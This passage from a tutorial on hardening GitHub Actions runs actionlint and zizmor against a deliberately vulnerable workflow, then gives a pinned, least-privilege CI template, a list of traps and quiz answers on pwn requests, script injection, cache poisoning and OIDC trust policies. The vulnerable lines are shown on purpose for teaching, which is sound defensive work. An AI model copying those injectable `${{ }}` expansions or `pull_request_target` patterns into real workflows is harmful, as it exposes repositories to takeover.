.github/workflows/triage.yml:20:31: "github.head_ref" is potentially untrusted. avoid using it directly in inline scripts. instead, pass it through an environment variable. see https://docs.github.com/en/actions/reference/security/secure-use#good-practices-for-mitigating-script-injection-attacks for more details [expression]
   |
20 |         run: echo "Branch ${{ github.head_ref }}"
   |                               ^~~~~~~~~~~~~~~
.github/workflows/triage.yml:23:36: "github.event.pull_request.body" is potentially untrusted. avoid using it directly in inline scripts. instead, pass it through an environment variable. see https://docs.github.com/en/actions/reference/security/secure-use#good-practices-for-mitigating-script-injection-attacks for more details [expression]
$ echo $?
1
```

`actionlint` found all three injections, including the one in the `github-script` `script:` input. Now count what it did **not** report:

1. `pull_request_target` together with a checkout of the PR head and `make test`: the pwn request.
2. `permissions: write-all`.
3. Tags instead of SHA pins (`@v4`, `@v7`).
4. `persist-credentials` left at the default.
5. No `timeout-minutes`.

None of these are errors in the workflow language. They are security policy. That is the job of `zizmor`.

One more trap appeared while writing this example. The first version had `echo "New issue: ${{ ... }}"`, and `actionlint` refused it: `could not parse as YAML: mapping values are not allowed in this context`. A plain (unquoted) YAML value may not contain a colon followed by a space. Use a block scalar (`run: |`) for any script longer than a word.

### `zizmor` on the same file

`zizmor` is a static analyser for GitHub Actions security, written in Rust.

!!! tip "New tool: `zizmor`"

    ```sh
    mise use zizmor@1.33.1
    ```

    This adds it to the project's `mise.toml`, pinned to an exact version. See [Adding tools as you go](../toolbox/mise.md#adding-tools-as-you-go).

Run it on files, directories, or (with a token) a remote repository:

```sh
zizmor .github/workflows/triage.yml
zizmor --offline .github/workflows/
zizmor --persona=pedantic .github/workflows/
zizmor --min-severity=medium --format=sarif .github/workflows/ > zizmor.sarif
```

`--offline` skips the audits that call the GitHub API (impostor commits, known-vulnerable actions). `--format=sarif` produces a file for GitHub code scanning; `--format=github` writes annotations on the PR. On the unsafe `triage.yml` (in a scratch Git repository, like the `actionlint` run above):

```console
$ zizmor --offline .github/workflows/triage.yml 2>/dev/null
warning[artipacked]: credential persistence through GitHub Actions artifacts
  --> .github/workflows/triage.yml:15:9
   |
15 |         - uses: actions/checkout@v4
   |  _________^
16 | |         with:
17 | |           ref: ${{ github.event.pull_request.head.sha }}
   | |________________________________________________________^ does not set persist-credentials: false
   |
   = note: audit confidence → Low
   = note: this finding has an auto-fix
   = help: audit documentation → https://docs.zizmor.sh/audits/#artipacked

error[dangerous-triggers]: use of fundamentally insecure workflow trigger
 --> .github/workflows/triage.yml:5:3
  |
5 |   pull_request_target:
  |   ^^^^^^^^^^^^^^^^^^^ pull_request_target is almost always used insecurely
  |
  = note: audit confidence → Medium
  = help: audit documentation → https://docs.zizmor.sh/audits/#dangerous-triggers

error[template-injection]: code injection via template expansion
  --> .github/workflows/triage.yml:19:34
   |
19 |         run: echo "New issue ${{ github.event.issue.title }}"
   |         --- this run block       ^^^^^^^^^^^^^^^^^^^^^^^^ may expand into attacker-controllable code
   |
   = note: audit confidence → High
   = note: this finding has an auto-fix
   = help: audit documentation → https://docs.zizmor.sh/audits/#template-injection

error[template-injection]: code injection via template expansion
  --> .github/workflows/triage.yml:21:31
   |
21 |         run: echo "Branch ${{ github.head_ref }}"
   |         --- this run block    ^^^^^^^^^^^^^^^ may expand into attacker-controllable code
   |
   = note: audit confidence → High
   = note: this finding has an auto-fix
   = help: audit documentation → https://docs.zizmor.sh/audits/#template-injection

error[template-injection]: code injection via template expansion
  --> .github/workflows/triage.yml:25:30
   |
22 |       - uses: actions/github-script@v7
   |         ------------------------------ action accepts arbitrary code
23 |         with:
24 |           script: |
   |           ------ via this input
25 |             console.log("${{ github.event.pull_request.body }}")
   |                              ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^ may expand into attacker-controllable code
   |
   = note: audit confidence → High
   = help: audit documentation → https://docs.zizmor.sh/audits/#template-injection

error[unpinned-uses]: unpinned action reference
  --> .github/workflows/triage.yml:15:15
   |
15 |       - uses: actions/checkout@v4
   |               ^^^^^^^^^^^^^^^^^^^ action is not pinned to a hash (required by blanket policy)
   |
   = note: audit confidence → High
   = help: audit documentation → https://docs.zizmor.sh/audits/#unpinned-uses

error[unpinned-uses]: unpinned action reference
  --> .github/workflows/triage.yml:22:15
   |
22 |       - uses: actions/github-script@v7
   |               ^^^^^^^^^^^^^^^^^^^^^^^^ action is not pinned to a hash (required by blanket policy)
   |
   = note: audit confidence → High
   = help: audit documentation → https://docs.zizmor.sh/audits/#unpinned-uses

10 findings (3 suppressed, 3 unsafe fixes): 0 informational, 0 low, 1 medium, 6 high
$ echo $?
14
```

(`2>/dev/null` hides two `INFO` progress lines.) Every finding names an **audit**, points at the exact span, and links to the audit's documentation:

| Audit                | Why it fires here                                                |
| -------------------- | ---------------------------------------------------------------- |
| `dangerous-triggers` | `pull_request_target` is used                                    |
| `template-injection` | `${{ }}` with attacker-controlled fields in `run:` and `script:` |
| `artipacked`         | `actions/checkout` without `persist-credentials: false`          |
| `unpinned-uses`      | `@v4` and `@v7` are tags, not commit SHAs                        |

Compare with `actionlint`: both tools found the three injections, but only `zizmor` reported the trigger, the tag pins and the persisted credentials. And "3 suppressed" means three more findings exist, below the default **persona**. `--persona=auditor` shows them: `excessive-permissions` for `write-all`, plus two lower-severity notes (`anonymous-definition`, `concurrency-limits`). The exit code is non-zero when there are findings, so CI fails without extra scripting.

Run both tools in CI: `actionlint` for correctness, `zizmor` for security. Both are fast enough for every PR. This repository runs `zizmor --offline` inside `mise run lint`, and the online audits in a separate CI job that alone gets the token. Its own workflows are clean even for the strictest persona:

```console
$ zizmor --offline --no-progress --persona=auditor .github/workflows 2>/dev/null
No findings to report. Good job!
```

Getting there took more than SHA pins: a `name:` for every job, a comment on every permission, and `concurrency` for the Scorecard workflow. Small things, but each one makes the next review faster.

### Exercises

1. Rewrite `triage.yml` so that both `actionlint` and `zizmor` are clean: `pull_request` instead of `pull_request_target`, `permissions: {}` plus a job-level block, SHA pins, `env:` for every untrusted value.
2. Run `git ls-remote --tags https://github.com/tj-actions/changed-files | grep 'refs/tags/v46'`. Which tags point to the same commit today? Why would a `@v46` user and a `@v46.0.5` user have been hit the same way in March 2025?
3. For one of your own repositories, find every job that has `id-token: write` and write down the exact `sub` its token will have. Does the cloud trust policy match it with `StringEquals`?
4. Add `step-security/harden-runner` with `egress-policy: audit` as the first step of a public repository's CI, run it, and turn the list of endpoints into an `egress-policy: block` allow-list.

## A hardened template

A CI and deploy workflow for a Go service that uses this page's rules. Copy it, then remove what you don't need. This site's own [`ci.yml`](https://github.com/johankees/software-engineering-tutor/blob/main/.github/workflows/ci.yml), [`pages.yml`](https://github.com/johankees/software-engineering-tutor/blob/main/.github/workflows/pages.yml) and [`scorecard.yml`](https://github.com/johankees/software-engineering-tutor/blob/main/.github/workflows/scorecard.yml) follow the same rules; read them next to this one.

```yaml
name: CI

on:
  pull_request:
  push:
    branches: [main]

# Every job starts with no token scopes.
permissions: {}

concurrency:
  group: ci-${{ github.ref }}
  cancel-in-progress: ${{ github.event_name == 'pull_request' }}

jobs:
  test:
    runs-on: ubuntu-latest
    timeout-minutes: 15
    permissions:
      contents: read
    steps:
      - uses: step-security/harden-runner@aebdcf6156ab6691adf63218240e476564a1ed4c # v2.23.0
        with:
          egress-policy: block
          allowed-endpoints: >
            github.com:443
            api.github.com:443
            proxy.golang.org:443
            sum.golang.org:443
            raw.githubusercontent.com:443
            release-assets.githubusercontent.com:443
            go.dev:443
            dl.google.com:443
            storage.googleapis.com:443
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1 # v7.0.1
        with:
          persist-credentials: false
      - uses: actions/setup-go@d8cbb8045d7f43706b9177cceb36c1f91a6644d5 # v7.1.0
        with:
          go-version-file: go.mod
          cache: ${{ github.event_name == 'pull_request' }}
      - run: go mod verify
      - run: go vet ./...
      - run: go test -race ./...
      - run: go build -trimpath -o bin/ordersd ./cmd/ordersd
      - if: github.event_name == 'push'
        uses: actions/upload-artifact@cf430e030ddbb5b0abf93d22962f4752f3646cd9 # v7.0.2
        with:
          name: ordersd
          path: bin/ordersd
          retention-days: 7

  deploy:
    if: github.event_name == 'push' && github.ref == 'refs/heads/main'
    needs: test
    runs-on: ubuntu-latest
    timeout-minutes: 15
    # Reviewers, branch policy and the OIDC sub claim all hang on this name.
    environment: production
    permissions:
      contents: read
      id-token: write
    steps:
      - uses: step-security/harden-runner@aebdcf6156ab6691adf63218240e476564a1ed4c # v2.23.0
        with:
          egress-policy: audit
      - uses: actions/download-artifact@9000827ccba6bdab643e8b6fd33ac0654aef8333 # v8.0.2
        with:
          name: ordersd
          path: ${{ runner.temp }}/ordersd
      - uses: aws-actions/configure-aws-credentials@45666896f5d8e0f10ae255413f3a4cdd03bdc8f5 # v6.3.1
        with:
          role-to-assume: arn:aws:iam::111122223333:role/orders-deploy
          aws-region: eu-west-1
      - name: Deploy
        env:
          BIN: ${{ runner.temp }}/ordersd/ordersd
          SHA: ${{ github.sha }}
        run: |
          sha256sum "$BIN"
          aws s3 cp "$BIN" "s3://acme-orders-releases/$SHA/ordersd"
```

What each choice does:

| Line                                 | Closes                                                                   |
| ------------------------------------ | ------------------------------------------------------------------------ |
| `on: pull_request`, no `_target`     | Fork code never runs with secrets or a write token                       |
| `permissions: {}` + per-job blocks   | A new or compromised job gets no scopes by default                       |
| SHA pins with version comments       | Moved tags (tj-actions); Dependabot keeps them current                   |
| `persist-credentials: false`         | Later steps and artifacts can't read the checkout token (ArtiPACKED)     |
| `harden-runner` `block`              | A compromised dependency can't send data to an unknown host              |
| `cache:` only on pull requests       | The run on `main`, which produces the deployed binary, restores no cache |
| `go mod verify`                      | Module cache matches `go.sum`                                            |
| `environment: production`            | Deploy waits for reviewers; only `main` may deploy; secrets stay gated   |
| OIDC role, no stored keys            | Nothing long-lived to steal; trust policy pins repo + environment        |
| Download into `$RUNNER_TEMP`         | The artifact can't replace files in the workspace                        |
| `env:` for `${{ }}` values in `run:` | No script injection, even for "safe" values like `github.sha`            |
| `timeout-minutes`                    | A hung or hijacked job doesn't hold a runner for hours                   |

The `allowed-endpoints` list is an example: run once with `egress-policy: audit` and copy the endpoints that harden-runner reports for your job. The deploy job uses `audit` because cloud endpoints vary by region and service; tighten it the same way. [Secure pipeline](secure-pipeline.md) builds on this template with signing and provenance.

## Traps

- **"It's only a label bot."** A `pull_request_target` or `issue_comment` workflow with a write token and one `${{ github.event.* }}` in `run:` is a repository takeover.
- **Trusting `github.actor`.** `if: github.actor == 'dependabot[bot]'` checks who caused the **latest** event, not who wrote the code. An attacker can sometimes arrange for a bot to cause that event on their PR. Check `github.event.pull_request.user.login`, and prefer separate workflows over actor checks.
- **Pinning the outer action only.** A composite action with a tag inside still moves. Read `action.yml`, use lockfiles, or vendor the action.
- **Secrets in repository scope.** Any job can reach them. Put deploy secrets in an environment with reviewers.
- **`StringLike` with `*` in the OIDC trust policy.** It trusts every branch, PR and workflow of the repository, or of the whole organisation.
- **`id-token: write` at the top of the workflow.** Every job, including the test job that runs PR code on `push`, can then mint a token. Give it only to the deploy job. This repository's `pages.yml` had it at the top until the repository applied this page; now only its deploy job has it.
- **Restoring caches in release builds.** A cache written by a less trusted run becomes part of your release.
- **Downloading artifacts into the workspace.** The artifact can overwrite scripts that later steps run.
- **`secrets: inherit`.** The called workflow gets all secrets, including ones added later.
- **Self-hosted runner on a public repository.** Anyone can run code on it.
- **Relying on masking.** Base64 defeats it. Keep secrets out of jobs that run untrusted code.
- **Leaving an old publish token after moving to trusted publishing.** Revoke it (Ultralytics).

## Check yourself

??? question "1. A workflow runs on `pull_request` for fork PRs. It uses `${{ github.event.pull_request.title }}` inside `run:`. The token is read-only and there are no secrets. Is it still a problem?"

    Yes, but smaller. The attacker can already run any code in this job by changing the
    code in their PR, so the injection gives them nothing new **here**. The risks are
    that the same pattern is copied into a privileged workflow, that the workflow later
    gets `pull_request_target` or a secret, and that maintainers' own PRs (with more
    privilege) run it too. Fix it anyway with `env:`, and keep `actionlint` and `zizmor`
    in CI so the pattern can't come back.

??? question "2. Why is `workflow_run` safer than `pull_request_target` for posting a PR comment, and what can still go wrong?"

    With `workflow_run`, the untrusted part (building the PR) runs in a separate
    `pull_request` workflow with no privilege. The privileged workflow runs only default
    branch code. What can still go wrong is the hand-off: if the privileged side checks
    out the PR, runs a file from the artifact, downloads it into the workspace, or puts
    artifact fields into `${{ }}` in `run:` or into `$GITHUB_ENV`, the attacker is back
    in a privileged job. Treat the artifact strictly as data and validate every field.

??? question "3. A step runs `actions/upload-artifact` with `path: .` after `actions/checkout` with default settings. What leaked before 2024, and why is `persist-credentials: false` still worth writing today?"

    The artifact contained `.git/config` with the job's `GITHUB_TOKEN` (ArtiPACKED), and
    an attacker could download it while the run was still going. `upload-artifact` now
    skips hidden files by default, so the upload is fixed. But the token is still on disk
    for the whole job (since checkout v6 in a file under `$RUNNER_TEMP`), and any later
    step, test or third-party action can read it and send it away. Without a saved token,
    there is nothing to read.

??? question "4. Your AWS trust policy says `StringLike` `token.actions.githubusercontent.com:sub` = `repo:acme/orders:*`. Which jobs can assume the role? What do you change?"

    Every job in `acme/orders` that has `id-token: write`: any branch (including a
    branch that someone with push access just created), any tag, any environment, and PR
    workflows if they request a token. Change it to `StringEquals` on
    `repo:acme/orders:environment:production` (or the ID-based format for new
    repositories), check the `aud` too, and protect the `production` environment with
    required reviewers and a branch policy. For a shared deploy workflow, also match
    `job_workflow_ref`.

??? question "5. You pinned `tj-actions/changed-files` by SHA in February 2025. Were you safe in March 2025? Was tj-actions itself safe, given that its own workflows pinned its actions?"

    Your pin was safe: the attackers moved tags to a new commit, and your SHA still named
    the old, clean commit. tj-actions was hit through a **transitive** dependency: its
    `eslint-changed-files` action called `reviewdog/action-setup@v1` by tag, and that tag
    was moved for about two hours on 11 March. A pin on the outer action does not pin the
    actions it calls. Lockfiles, reading `action.yml`, and an allow-list for transitive
    actions close that gap.

??? question "6. A pull request from a fork cannot write to the cache of `main`. How did Ultralytics' release still end up with a poisoned cache?"

    The cache rules protect `main` from `pull_request` runs. Ultralytics ran untrusted
    input in a `pull_request_target` workflow, which runs in the default branch's context
    and so can write cache entries in its scope. The release build on `main` then
    restored them. Never run untrusted input in privileged workflows, and don't restore
    caches in release jobs.

??? question "7. Why should self-hosted runners be ephemeral even in a private repository where every author is an employee?"

    Because a single compromised job (a malicious dependency, a moved action tag, an
    injection) can leave something behind on a persistent runner: a background process, a
    changed tool, a stolen credential cache. The next job, perhaps a release with
    production secrets, runs on the same machine. An ephemeral runner (one job, then
    destroyed, as ARC does) limits the damage to one job.

## Recap

- Threat model: list who controls each **input** (code, titles, branch names, artifacts, actions) and what each job can **reach** (token, secrets, OIDC, cache, runner). Keep the two apart.
- `pull_request` is the safe trigger. `pull_request_target` and `workflow_run` run with privilege; never check out or run PR code in them. Checkout v7 refuses common pwn requests, and public repositories block `pull_request_target` by default from 2 December 2026.
- Split work: untrusted build uploads an artifact; a trusted `workflow_run` reads it into `$RUNNER_TEMP` as **data** and validates every field.
- Script injection hits `run:`, `github-script` `script:`, and `$GITHUB_ENV`. Pass values through `env:` and read them as variables.
- `permissions: {}` at the top, explicit per-job scopes, and `persist-credentials: false` on every checkout.
- Masking is not protection. Put deploy secrets in **environments** with required reviewers, branch policies and no admin bypass.
- **OIDC** replaces stored cloud keys. Pin the trust policy with `StringEquals` to repository and environment, and to `job_workflow_ref` for central deploy workflows.
- Pin actions by SHA, update them with Dependabot (with a cooldown), and remember transitive actions: lockfiles, allow-lists, required SHA pinning.
- Don't restore caches in release jobs; don't run untrusted code where it can write `main`'s cache.
- No self-hosted runners on public repositories; ephemeral runners (ARC) everywhere else.
- Lint with `actionlint` and `zizmor` on every PR; watch egress with `harden-runner`.

Next: actions are one kind of dependency. [Dependencies](dependencies.md) covers how to admit, update and review all the others.
